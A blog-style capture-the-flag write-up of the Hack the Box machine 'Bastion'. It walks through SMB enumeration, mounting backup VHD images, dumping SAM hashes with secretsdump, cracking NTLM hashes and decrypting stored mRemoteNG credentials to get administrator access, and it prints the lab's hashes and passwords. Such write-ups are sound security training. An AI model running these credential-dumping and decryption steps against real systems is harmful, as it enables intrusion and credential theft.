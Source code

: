 ```yaml
---
title: Bastion
date: 2024-03-03 10:00
categories: [ctf, security, hacking, exploits]
tags: [ctf, security, hacking, exploits]
---
```


# Overview
Bastion is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some deeper smb enumeration, with exploring some unique files, and mounting the smb share locally to take a closer look. The foothold is accomplished after digging into those unique files, and cracking hashes to get ssh access. The privilege escalation is accomplished through digging into the file system and a unique application, and finding encrypted credentials to then crack with a python decryptor found on a github repo. 

## Nmap Scan
sudo nmap -sS -Pn 10.10.10.134 -vvv 

* 22/tcp  open  ssh          syn-ack ttl 127
* 135/tcp open  msrpc        syn-ack ttl 127
* 139/tcp open  netbios-ssn  syn-ack ttl 127
* 445/tcp open  microsoft-ds syn-ack ttl 127

Seems that we have access to the smb shares, and we can start digging into the files there. 

## Basic Enumeration
Taking a look at the smb shares, we see the usual shares here, but one that is not a typical share, `Backups.`
```
ADMIN$          Disk      Remote Admin
Backups         Disk
C$              Disk      Default share
IPC$            IPC       Remote IPC
```
We can gain unauthenticated access to this share, and dig through it. We get a sublte hint from `note.txt`, something about logging in with a VPN. 

* The unique files we find digging further are some `.vhd` files, which are virtual hard disk files. 
* Digging through the smb file path, we also see a potential user, `L4mpje`.
* Due to the file size, it will be easier to mount the file shares locally. 

> mount -t cifs //10.10.10.134/Backups mnt/

We need to get a tool called `guestmount` to be able to look through the `vhd` files. (`apt install libguestfs-tools`)

* guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro mnt2/
* guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro mnt2/

## Foothold
The second one works (`9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd`), and we can look through the files here for the file system. 

* Now we move into the system32/config directory to then do a secretsdump.py
* impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM @LOCAL
* This dumps out hashes on the machine.
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Since these are ntlm hashes, we can use hashcat to crack passwords. We manage to crack `L4mpje` user hash: `bureaulampje`

* We log in over ssh service, and can read `user.txt`:

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/bastion/Bastion_User.png?raw=true)

## Local Enumeration
Looking through and enumerating with `winpeas`, we don't get an immediate path to privilege escalation. From here, we pivoted to checking for installed applications. Looking through `Program Files (x86)`, we see an application `mRemoteNG`.

* Multi-Remote Next Generation Connection Manager
* https://mremoteng.org

## Privilege Escalation
Doing some research, it looks we can access potential credentials for the files set up for the Remote Connection Manager. 

* We can find the `xml` file set up for this within the users `appdata\roaming` file path. 
* We find the file `confCons.xml` which has credentials for the Administrator, but it is encrypted with AES, using Cypher Mode `GCM`. 

Looking around online, we can find a public POC to decrypt the password: https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py

* `python3 decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw== -p mR3m`
* Password decrypted: `thXLHM96BeKL0ER2`

Now we log back in over ssh as the admin, get the `root.txt`:

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/bastion/Bastion_Root.png?raw=true)